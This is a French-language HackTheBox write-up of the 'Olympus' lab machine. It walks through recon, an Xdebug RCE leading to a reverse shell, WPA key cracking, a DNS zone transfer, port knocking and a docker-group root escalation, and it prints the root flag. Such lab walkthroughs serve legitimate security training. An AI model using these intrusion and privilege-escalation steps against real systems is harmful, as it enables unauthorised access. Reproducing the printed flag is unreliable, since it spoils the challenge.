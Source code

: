 Bonjour à tous, je vous présente mon **write-up** qui porte sur la machine **Olympus** de **HackTheBox** qui était assez cool et qui m'a apprit des choses que je n'avais jamais vu auparavant surtout dans un CTF. Elle n'est pas difficile mais très intéréssante et amusante à root... 😀

# Recon

## Nmap
  
```bash
# Nmap 7.91 scan initiated Fri Jan 29 17:30:12 2021 as: nmap -sC -sV -oA nmap -Pn olympus.htb
Nmap scan report for olympus.htb (10.10.10.83)
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-server-header: Apache
|_http-title: Crete island - Olympus HTB
2222/tcp open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.91%I=7%D=1/29%Time=60143823%P=x86_64-unknown-linux-gnu%r
SF:(DNSVersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0
SF:\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=1/29%Time=6014381E%P=x86_64-unknown-linux-gnu
SF:%r(NULL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\r\n");
```


Nous pouvons voir que le serveur contient 3 ports ouverts:
1. Port 53 (Serveur DNS)
2. Port 80 (Serveur Web Apache)
3. Port 2222 (Serveur SSH)

### Enumération Serveur DNS

Commencons par intérroger le serveur DNS afin d'afficher l'opcode mnémotechnique **AXFR** avec **dig**. La requete AXFR ne renvoie rien d'intéréssant, cependant un autre nom de domaine peut etre important...

![dig](https://i.imgur.com/IvHQg4g.png)

### Enumération Serveur Web

###### Web Dir

![webdir](https://i.imgur.com/njBhSKT.png)

Rien n'a été trouvé.

###### HTTP Headers

En regardant les headers des requetes et réponses HTTP on sait maintenant que **Xdebug 2.5.5** est en marche sur la machine, ce qui peut permettre aux développeurs de déboguer à distance.

![headers](https://i.imgur.com/UPfH78c.png)

Après quelques recherches, on s'apercoit que cette librairie est touché par une [RCE](https://paper.seebug.org/397/), ce qui va nous permettre d'avoir un premier foothold sur la machine. 😇

# Exploitation

Nous allons utiliser un [script python](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py) déjà présent sur GitHub pour plus de rapidité et facilité.

![rce_script](https://i.imgur.com/qTLDi5R.png)

Nous pouvons maintenant executer des commandes en www-data sur la cible, il ne reste plus qu'a executer un reverse shell. 😎

![rce_shell](https://i.imgur.com/XDHlNPz.png)

Enfin, nous avons un shell sur la machine cible ! 

# Pivot to Olympia container

La présence d'un .dockerenv certifie bien le fait que nous sommes dans un container Docker.

![dockerenv](https://i.imgur.com/KpJtQ8w.png)

Avec une énumération un peu plus appronfondie, nous avons un fichier .cap de capture réseau associé à un .txt de la part de Zeus. Nous allons donc le transférer sur notre machine local afin de l'étudier avec Wireshark.

![presence&transfert_cap](https://i.imgur.com/XLbOkkM.png)

###### Analyse .cap

Plusieurs solutions sont possibles:

1. Regarder les strings qui correspondent à l'hexdump du fichier .cap avec xxd et strings.
2. Ouvrir le fichier via Wireshark

![analyse_cap](https://i.imgur.com/CDPomUA.png)

###### Cracking WPA key

À partir d'un SSID nous pouvons tenter de casser la clé **WPA** de ce AP sans fil avec **aircrack-ng**

![crack_key](https://i.imgur.com/orzve4A.png)

La clé est dans la wordlist rockyou donc ca n'a pas été très difficile pour l'a casser.

J'ai eu des difficultés pour comprendre que après cette étape, nous devons deviner que icarus était en effet un utilisateur du serveur SSH.

![ssh_connexion](https://i.imgur.com/RcgLtEb.png)

On se retrouve une nouvelle fois à l'intérieur d'un container Docker.

# Pivot to Hades / Olympus

Un document .txt fans le répertoire courant révèle un nouveau nom de domaine pour la machine.

Je vais l'ajouter à ma liste des VHOSTS:

```bash
127.0.0.1  localhost
127.0.1.1  host
10.10.10.83	olympus.htb	ctfolympus.htb
```

Lors de la phase initiale d'énumération, j'avais essayé de faire un transfert de zone mais on avait rien trouvé, avec le nouveau nom de domaine nous aurons peut etre un retour.

![zonetransfer_ctf](https://i.imgur.com/CJuhzRQ.png)

Nous avons des informations en or dans les **records TXT**. 

###### Port Knocking

Durant notre scan nmap, nous avons vu que le port 22 était filtré. 
On obtient maintenant les credentials d'un utilisateur nommé prometheus, ainsi que des numéros pour aller au portail d'Hadès qui sont concrètement les numéros de port sur lesquels nous devons nous connecter pour réaliser un **Port Knocking** afin de se connecter à l'utilisateur prometheus.

Pour cela c'est très simple nous allons executer une boucle for en bash pour automatiser la chose dans le temps imparti:

```bash
for nuts in 3456 8234 62431; do nmap -p $nuts 10.10.10.83; done; ssh prometheus@10.10.10.83
```

Ensuite nous pouvons nous connecter avec le mot de passe obtenu auparavant. 🤠

![port_knocking](https://i.imgur.com/tJ5fJMj.png)

# Privilege Escalation

Pour conclure cette machine assez cool, l'éscalation de privilèges est très simple.
Prometheus est dans le **groupe "docker"**. De plus, Docker exige des droits root donc je vais exécuter un shell à partir d'une image du Docker Hub:

```bash
prometheus@olympus:~$ docker run -it olympia bash
root@f388364ddf48:/#
```

À noter que nous pouvons aussi monter la racine du système de fichiers local dans cette image comme le réfère [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell):

```bash
prometheus@olympus:~$ docker run -v /:/mnt --rm -it olympia chroot /mnt bash
root@421e0ac051c7:/# cd /root && ls
root.txt
root@421e0ac051c7:~# cat *
aba486990e2e849e25c23f6e41e5e303
```

Voila nous sommes enfin root ! 🙂
